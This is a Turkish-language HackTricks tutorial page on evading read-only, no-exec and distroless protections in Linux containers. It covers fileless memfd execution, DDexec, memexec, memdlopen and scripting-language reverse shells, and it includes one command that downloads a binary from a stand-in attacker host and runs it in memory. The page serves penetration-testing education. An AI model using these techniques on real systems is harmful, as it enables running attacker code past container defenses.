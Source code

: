 # FS korumalarını atlatma: salt okunur / no-exec / Distroless

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin (https://peass.creator-spring.com)
* [**The PEASS Ailesi**]'ni keşfedin (https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**]'in koleksiyonu
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı açıklanmış şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlilik ve Kaçınma için Linux Bellek Manipülasyonu Keşfi**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizli sızıntılar - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## salt okunur / no-exec senaryosu

Özellikle konteynerlerde **salt okunur (ro) dosya sistemi koruması** ile donatılmış Linux makineleri bulmak artık daha yaygın hale gelmektedir. Bu, salt okunur dosya sistemiyle bir konteyner çalıştırmak için `securitycontext` içinde **`readOnlyRootFilesystem: true`** ayarlamak kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlanmış olsa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu nedenle diske bir şey yazamayacağımızı düşünmek yanıltıcı olacaktır. Bununla birlikte, bu klasör **no-exec koruması ile bağlanacaktır**, bu nedenle buraya bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan (arka kapılar veya `kubectl` gibi enumaratörler gibi) ikili dosyaları **indirip çalıştırmayı karmaşık hale getirir**.
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları belirttiğimi unutmayın, **yürütülebilir herhangi bir betik** (interpreter makinede varsa) çalıştırabilirsiniz, örneğin `sh` varsa bir **kabuk betiği** veya `python` yüklüyse bir **python betiği**.

Ancak, bu, ikili arka kapınızı veya çalıştırmanız gerekebilecek diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Atlatmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **bellekten çalıştırmaktır**, çünkü **korumalar orada uygulanmaz**.

### FD + exec syscall atlatma

Makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorlarına sahipseniz, ikili dosyayı bellekten çalıştırmak için indirebilir, onu bir bellek dosya tanımlayıcısında saklayabilirsiniz (`create_memfd` syscall), bu korumalar tarafından korunmayacak ve ardından bir **`exec` syscall** çağırarak **fd'yi çalıştırılacak dosya olarak belirtebilirsiniz**.

Bunun için kolayca [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kullanabilirsiniz. Bir ikili dosya geçirerek, onu **b64 kodlanmış ve şifrelenmiş** bir şekilde içeren bir betik oluşturacak ve onu **çözümlemek ve sıkıştırmak** için talimatlarla birlikte `create_memfd` syscall'i çağırarak oluşturulan bir **fd** içinde saklayacak ve çalıştırmak için **exec** syscall'i çağıracaktır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bunlar bir betikten **ham syscalls** çağırmak için herhangi bir **varsayılan yol**a sahip değillerdir, bu nedenle `create_memfd`'yi çağırmak için **bellek fd** oluşturulamaz.

Ayrıca, `/dev/shm` içinde bir dosya ile bir **düzenli fd** oluşturmak çalışmayacaktır, çünkü **no-exec koruması** uygulanacağından çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işleminizin **`/proc/self/mem`**'ini üzerine yazarak **belleğinizi değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından yürütülen derleme kodunu kontrol ederek bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu çalıştırmak üzere "mutasyona uğratabilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu yüklemenize ve **bellekten** herhangi bir **ikili dosyayı çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. **Farklı bir ikili dosyayı çalıştırmak istediğinizde DDexec'i yeniden başlatmanıza gerek kalmadan**, DDexec tekniği aracılığıyla memexec shellcode'unu çalıştırabilir ve ardından bu deamon ile iletişim kurarak yeni ikili dosyaları yükleyip çalıştırabilirsiniz.

**Memexec'i kullanarak PHP ters kabuk'tan ikili dosyaları çalıştırmak için bir örnek** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulunabilir.

### Memdlopen

DDexec'e benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları çalıştırmak için belleğe ikili dosyaları yüklemenin daha kolay bir yolunu sağlar. Bağımlılıkları olan ikili dosyaları bile yüklemeyi mümkün kılabilir.

## Distroless Atlatma

### Distroless Nedir

Distroless konteynerler, yalnızca belirli bir uygulamayı veya hizmeti çalıştırmak için gerekli olan **en temel bileşenleri** içerir; kütüphaneler ve çalışma zamanı bağımlılıklarını içerir, ancak bir paket yöneticisi, kabuk veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin **saldırı yüzeyini azaltmak** ve sömürülebilecek güvenlik açıklarının sayısını en aza indirmektir.

### Ters Kabuk

Distroless konteynerlerde genellikle **`sh` veya `bash`** gibi normal bir kabuk bulamayabilirsiniz. Ayrıca, genellikle bir sistemde çalıştırdığınız `ls`, `whoami`, `id` gibi ikili dosyaları da bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle yaptığınız gibi bir **ters kabuk** alamayacak veya sistemde **numaralandırma** yapamayacaksınız.
{% endhint %}

Ancak, ele geçirilen konteyner örneğin bir flask web uygulaması çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters kabuk** alabilirsiniz. Node çalışıyorsa, bir Node ters kabuk alabilirsiniz ve çoğu **betik dili** ile aynı şeyi yapabilirsiniz.

{% hint style="success" %}
Betik dili kullanarak dilin yeteneklerini kullanarak sistemde **numaralandırma yapabilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak **ikili dosyalarınızı dosya sistemine yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunacaktır, ancak bunları atlatmak için **önceki bellek yürütme tekniklerini kullanabilirsiniz**.
{% endhint %}

**RCE zafiyetlerini kullanarak betik dillerinden ters kabuklar almayı ve hafızadan ikili dosyaları çalıştırmayı nasıl istismar edeceğinize dair örnekler** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulunabilir.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek veya HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.
* **Hacking püf noktalarınızı göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek paylaşın.

</details>
